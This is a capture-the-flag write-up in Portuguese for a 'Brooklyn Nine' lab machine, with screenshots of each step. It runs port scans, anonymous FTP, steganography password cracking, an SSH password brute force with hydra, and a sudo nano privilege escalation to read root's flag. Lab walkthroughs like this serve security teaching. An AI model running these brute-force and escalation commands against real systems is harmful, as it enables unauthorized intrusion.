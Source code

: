 # Brooklyn Nine

* ### Scan de portas - Verificando quais portas estão abertas.
```Bash
rustscan -a 10.10.248.74
```
![image](https://github.com/lufffe/Writeups/assets/90646635/5c69703f-45d5-48b6-9051-053ef0c623ef)

![image](https://github.com/lufffe/Writeups/assets/90646635/55c6b5d0-ddd1-4e29-846b-c18ab5259781)

* ### Verificando o que está rodando nas portas encontradas.
```Bash
nmap -A -p 21,22,80 10.10.248.74
```
![Captura de tela 2023-08-24 105130](https://github.com/lufffe/Writeups/assets/90646635/66271f17-b385-4e73-b3aa-dce319a3dfd3)

* ### Verificando o FTP e baixando o arquivo que estava lá.
```Bash
ftp 10.10.248.74
```
![image](https://github.com/lufffe/Writeups/assets/90646635/0f02bdac-2da3-4511-b857-b0e42e791fe4)

* ### Lendo arquivo baixado.
![image](https://github.com/lufffe/Writeups/assets/90646635/efa475d4-91f3-4d60-aac8-d43e50064870)

* ### Olhando o Http.
![image](https://github.com/lufffe/Writeups/assets/90646635/1be68ae1-ece5-4ac5-bd5c-a4d1ca795412)

* ### Temos uma imagem gigantesca, e um comentário sobre esteganografia.
![image](https://github.com/lufffe/Writeups/assets/90646635/8e76fa90-d372-4bc4-87f6-107cdabb2ad2)

* ### Baixando a imagem.
```Bash
wget http://10.10.248.74/brooklyn99.jpg
```

* ### Procurando uma possivel senha na imagem.
```Bash
sudo stegcracker brooklyn99.jpg ~/rockyou.txt
```
![image](https://github.com/lufffe/Writeups/assets/90646635/95d9b4b8-9fc0-4c70-9fe5-916cf9663fc8)

* ### Encontrada, mas não é a senha do SSH do usuário Jake.
![image](https://github.com/lufffe/Writeups/assets/90646635/a229cde0-1be1-4687-a165-d4062676fc17)

* ### BruteForce no SSH.
```Bash
hydra -l jake -P rockyou.txt 10.10.248.74 ssh
```
![image](https://github.com/lufffe/Writeups/assets/90646635/529cfea5-9d0a-4f61-8041-61493f8d62b8)

* ### Depois de acessar o SSH pelo usuário Jake com a senha encontrada no BruteForce, vi que tem um usuário Holt, testei a senha encontrada na imagem e deu certo, a Flag User está lá.
![image](https://github.com/lufffe/Writeups/assets/90646635/4972304b-a169-4de3-9181-afc9a4511987)

* ### Flag User.
```Bash
cat /home/holt/user.txt 
```

* ### Procurando como escalar previlégio do usuário.
```Bash
sudo -l
```
![image](https://github.com/lufffe/Writeups/assets/90646635/4e85e84a-2b4a-4a34-8b84-587705ed5599)


* ### Ai ficou facil :D .
```Bash
sudo /bin/nano /root/root.txt
```
![image](https://github.com/lufffe/Writeups/assets/90646635/03553ac2-9204-4914-b278-a7b19bcb0d4b)


